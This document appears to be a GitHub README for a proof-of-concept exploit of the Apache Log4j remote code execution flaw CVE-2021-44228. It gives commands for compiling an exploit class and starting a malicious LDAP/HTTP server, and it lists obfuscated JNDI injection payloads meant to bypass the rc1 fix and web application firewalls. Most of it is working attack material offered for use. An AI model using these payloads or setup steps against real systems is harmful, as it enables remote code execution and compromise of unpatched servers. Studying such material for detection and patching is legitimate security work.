### Join Community

[Telegram](https://t.me/vPwnd)

# CVE-2021-44228(Apache Log4j Remote Code Execution）

> [Affected versions < 2.15.0](https://logging.apache.org/log4j/2.x/security.html)

### Usage:
```
git clone https://github.com/PwnC00re/CVE-2021-44228-Apache-Log4j-Rce.git
cd apache-log4j-poc/src/main/java
javac Exploit.java 
python -m SimpleHTTPServer 8888 
```

```
cd tools
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8888/#Exploit"
```

Run the project finally,you will see your calculator from local.

Tips: 
> you can use [JNDI-Injection-Exploit](https://github.com/welk1n/JNDI-Injection-Exploit) to Exploit.

### Bypass rc1
For example:
```
${jndi:ldap://127.0.0.1:1389/ badClassName}
```

### Bypass WAF
```
${${::-j}${::-n}${::-d}${::-i}:${::-r}${::-m}${::-i}://asdasd.asdasd.asdasd/poc}
${${::-j}ndi:rmi://asdasd.asdasd.asdasd/ass}
${jndi:rmi://adsasd.asdasd.asdasd}
${${lower:jndi}:${lower:rmi}://adsasd.asdasd.asdasd/poc}
${${lower:${lower:jndi}}:${lower:rmi}://adsasd.asdasd.asdasd/poc}
${${lower:j}${lower:n}${lower:d}i:${lower:rmi}://adsasd.asdasd.asdasd/poc}
${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://xxxxxxx.xx/poc}
```

### Details Of Vuln
Lookups provide a way to add values to the Log4j configuration at arbitrary places.

[Lookups](https://logging.apache.org/log4j/2.x/manual/lookups.html)

> The methods to cause leak in finally

```
LogManager.getLogger().error()
LogManager.getLogger().fatal()
```

### Simple Check Method
If you want to do black-box testing， I suggest you do passive scanning.

[BurpLog4jScan](https://github.com/tangxiaofeng7/BurpLog4j2Scan)

Have Fun!!!
![BurpLog4jScan.png](https://github.com/tangxiaofeng7/BurpLog4j2Scan/blob/master/img/result.png)


### Stargazers over time
[![Stargazers over time](https://starchart.cc/tangxiaofeng7/apache-log4j-poc.svg)](https://starchart.cc/tangxiaofeng7/apache-log4j-poc)
